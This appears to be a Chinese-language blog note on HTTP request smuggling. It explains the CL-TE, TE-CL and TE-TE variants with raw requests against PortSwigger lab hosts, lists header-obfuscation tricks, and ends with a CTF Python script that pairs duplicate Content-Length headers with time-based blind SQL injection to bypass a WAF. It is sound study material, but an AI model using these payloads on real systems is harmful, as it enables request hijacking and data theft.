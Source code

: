 ```yaml
---
title: http请求走私笔记
author: ch4ser
date: 2020-08-24 22:22:46
typora-root-url: ../
categories:
  - 安全研究
---
```






正常的请求

![image-20211114141452612](image-20211114141452612.png)

<!--more-->

请求走私, 攻击者通过在自己的请求中夹带一个请求, 来影响到下一个请求中, 一个典型的例子是反射型xss, 通过在上一次请求中走私一个请求头, 就可以在正常用户接下来进行的一次正常请求的过程中纂改其请求内容, 比如修改他的请求路径为一个反射性xss链接, 这样就可以达到让用户点击正常链接但是却触发xss链接的目的.

![image-20211114141459648](image-20211114141459648.png)

其他的利用

- 捕获用户请求
- 缓存投毒
- 绕过waf(夹带危险请求url, 并在下一次正常请求的时候触发)
- 绕过前端安全控制



首先要知道http发包过程中两个标头的意思

- Content-Length

  - 表示请求体的长度, 简称CL

  ```
  Content-Length: 10
  
  8
  HELLO
  
  ```
  

10个长度指的是以下内容的长度

```
8\r\n
HELLO\r\n
```



- Transfer-Encoding, 简称TE

  - 表示编码时使用的安全传输的形式有效载荷体

  ```
  # 常见的几种
  Transfer-Encoding: chunked
  Transfer-Encoding: compress
  Transfer-Encoding: deflate
  Transfer-Encoding: gzip
  Transfer-Encoding: identity
  ```

  请求走私中一般用的都是``chunked``, 将消息正文视为使用分块编码.这里声明8字节长度, 经过一个换行后开始统计, 统计完8字节后经过一个换行表示下一个数据块开始, 长度为0, 被视为请求终止

  ```
  Transfer-Encoding: chunked
  
  8
  SMUGGLED
  0
  
  
  ```
  
  一个典型的请求如下
  
  ```http
  HTTP/1.1 200 OK 
  Content-Type: text/plain 
  Transfer-Encoding: chunked
  
  7\r\n
  Mozilla\r\n 
  9\r\n
  Developer\r\n
  7\r\n
  Network\r\n
  0\r\n 
  \r\n
  ```
  
  

请求走私发生在存在前端服务器和后端服务器的情况下, 一般有这么几种

-  CL-TE: 前端服务器识别的是Content_-Length, 后端服务器识别的是Transfer-Encoding
- TE-CL: 前端服务器识别的是Transfer-Encoding, 后端服务器识别的是Content-Length
- TE-TE: 前端服务器和后端服务器都是识别Transfer-Encoding的, 但是可以通过某种方式处理标头诱导一台服务器不对其进行处理

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```



## CL-TE

```http
POST / HTTP/1.1
Host: ac811f861fa3584f80e0998500f800dc.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=6mA52yc42gmrXsBVf3gCCwaizRMowHXn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

> 长度为6是因为0\r\n\r\nG, chunked看到0\r\n\r\n之后就结束接受了, 剩下来一个作为下一个请求头的开始

## TE-CL

```http
POST / HTTP/1.1
Host: ac4e1f3c1fe90e5480a44952006b00a0.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=MDCGt1IHa1MdeOnP1wkjRX15gMuiEGT6
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0


```

> chunked检测合理, 注意0\r\n\r\n是规定的结束格式, 然后后端只取12\r\n, 剩下来的东西就变成下一个请求的一部分



## TE-TE

```http
POST / HTTP/1.1
Host: ac731fb01fc279f280a00aac002d0026.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=nGAfuCE6lQ9mnpysbHjt8yG3eO5XnU5S
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: nothing

12
GPOST / HTTP/1.1

0


```

> 这里的情况是前端服务器以第一个TE为标准后端服务器以第二个为标准, 前端服务器通过之后, 后端服务器的TE值不存在, 就转而使用Content-Length为依据, 这个时候的情况就相当于TE-CL情况



## 脚本示例

burpsuite有时候会失败, 用socket

```python
# 2019 高校运维赛 ezwaf
# 使用cl-cl模式 两个content-length
import socket

ip = '111.186.57.43'
port = 10601

def send_raw(raw):
    try:
        with socket.create_connection((ip, port), timeout=5) as conn:
            conn.send(raw)
            res = conn.recv(10240).decode()
            # print(res)
            return False
    except:
        return True



if __name__ == '__main__':
    
    res = 'flag{abypass_modsecurity_'
    res = ""
    for i in range(1, 64):
        for j in range(32, 127):
            payload = '''GET /?age=1%20or%201%20and%20ascii(substr((select%20*%20from%20flag_xdd),{},1))={}%20and%20sleep(7) HTTP/1.1
Host: 111.186.57.43:10601
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 0
Content-Length: 0

'''.format(str(i), str(j))
            exp = payload.encode().replace(b'\n', b'\r\n')
            # print(exp)
            if send_raw(exp):
                res += chr(j)
                print(res)
                continue
```



使用工具:

burpsuite插件HTTP Request Smuggler

https://github.com/defparam/smuggler

参考

https://mp.weixin.qq.com/s/MFw7Trd-zFWNXsU3wTG_Mg

https://portswigger.net/web-security/request-smuggling/exploiting
